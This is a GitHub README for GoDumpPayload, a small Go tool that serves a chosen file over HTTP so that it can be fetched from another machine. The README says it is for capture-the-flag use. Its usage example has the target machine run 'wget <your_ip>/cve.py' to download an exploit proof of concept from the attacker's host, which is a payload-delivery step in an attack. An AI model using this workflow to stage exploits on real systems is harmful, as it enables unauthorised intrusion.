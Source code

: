 # GoDumpPayload

GoDumpPayload is an executable that opens a HTTP GET endpoint linked to a file or folder on your machine, so you can just download the wanted file from another computer on your local network (or distant if the port is opened on the internet).

It's mainly used to dump payload and/or scripts using curl and wget, to use a CVE in a remote machine. 
Of course, it's intended to be used during CTFs and not on actual vulnerable devices.

Please add a star if you like it :)


## How to install it

You can either download the code in the /cmd/ folder of this repository and then build it using `go build ./cmd/main/main.go`.
If you're somewhat lazy you can also download the executable with `wget https://github.com/ThrynSec/GoDumpPayload/blob/main/executables/GoDumpPayload`


## How to use it

You have to call `/path/to/GoDumpPayload/ ` followed by the arguments `-file path/to/file-or-folder -name name_for_the_endpoint`

Example :
`/home/JeanJean/Downloads/GoDumpPayload -file /home/JeanJean/Downloads/poc.py -name cve.py` will create `<your_ip>/cve.py`, and `wget <your_ip>/cve.py` on the target machine will download /home/JeanJean/Downloads/poc.py on it, renamed as "cve.py"

Additionnal optional flags :
`-port <int>` will open the endpoint on the given name. By default, it uses the port 80.


## Todo
* Adding /package/GoDumpPayload.deb to easily install GoDumpPayload in Path
* Rearranging my folders because /cmd/internals is an abomination (sorry guys)
* Creating a nice logo :)